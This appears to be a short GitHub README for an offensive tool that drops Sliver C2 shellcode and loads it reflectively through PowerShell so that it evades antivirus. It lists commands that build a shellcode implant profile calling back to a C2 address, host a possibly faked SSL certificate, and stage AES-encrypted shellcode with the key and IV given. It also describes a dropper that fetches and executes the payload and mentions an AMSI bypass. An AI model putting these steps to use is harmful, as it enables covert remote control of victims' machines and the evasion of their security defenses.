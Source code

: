 # Sliver-AV
Dropper + reflective load script for bypassing AV with sliver c2

Taken from [this article](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8).

Compression is a huge IOC so I may change this to remove

## In Sliver

Create new profile
`profiles new -b  https://192.168.1.11:443 --skip-symbols --format shellcode --arch amd64 my_profile`

Host SSL cert (you can fake with msf impersonate_ssl)
`https -L 192.168.1.11 -l 443 -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key`

Stage profile shellcode
`stage-listener --url https://192.168.1.11:8080 --profile my_profile -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

## Dropper

Shellcode dropper solution will download, decompress, decrypt shellcode and execute. Best way is to reflectively load via PowerShell as it is .NET assembly, and the dropper is not evasive
at all (you need AMSI bypass)

Use CLR AMSI bypass for entire process unhook
